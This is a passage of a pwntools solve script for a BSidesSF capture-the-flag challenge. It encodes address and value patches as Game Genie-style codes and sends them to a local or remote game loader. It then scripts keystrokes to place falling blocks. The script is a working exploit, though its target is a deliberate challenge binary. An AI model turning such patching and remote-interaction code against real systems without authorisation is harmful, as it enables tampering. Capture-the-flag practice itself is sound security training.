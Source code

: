 ```python
    b1 = (val & 0b111) | ((val & 0b10000000) >> 4)
    b2 = ((val & 0b1110000) >> 4) | ((addr & 0b10000000) >> 4)
    b3 = ((addr & 0b1110000) >> 4)
    b4 = ((addr & 0b111000000000000) >> 12) | ((addr & 0b1000))
    b5 = ((addr & 0b100000000000) >> 8) | (addr & 0b111)
    b6 = ((addr & 0b11100000000) >> 8) | ((val & 0b1000))

    return magic_dict[b1] + \
           magic_dict[b2] + \
           magic_dict[b3] + \
           magic_dict[b4] + \
           magic_dict[b5] + \
           magic_dict[b6]


REMOTE = False

def main():
    if REMOTE:
        pc = remote('genius-0a835449.challenges.bsidessf.net', 1338)
        pc.sendlineafter('continue!\n', gen_input(0x154c, 0xab))
        pc.sendlineafter('<enter>', gen_input(0x1551, 0x8b))
    else:
        pc = process('./loader')
        pc.sendlineafter('continue!\n', gen_input(0x154c, 0xab))
        pc.sendlineafter('<enter>', gen_input(0x1551, 0x8b))

    pc.recvuntil('+----------+')
    pc.recvuntil('+----------+')
    ##
    ##
    pc.sendline('d')
    pc.sendline('d')
    pc.sendline('d')
    pc.sendline('d')
    pc.sendline('d')
    pc.sendline('s')

    pc.recvuntil('+----------+')
    pc.recvuntil('+----------+')

    #
    ##
     #
    pc.sendline('d')
    pc.sendline('d')
    pc.sendline('d')
    pc.sendline('d')
    pc.sendline('d')
    pc.sendline('d')
    pc.sendline('s')

    pc.recvuntil('+----------+')
    pc.recvuntil('+----------+')

     #
    ###
    pc.sendline('a')
    pc.sendline('a')
    pc.sendline('a')
    pc.sendline('a')
    pc.sendline('a')
    pc.sendline('a')
```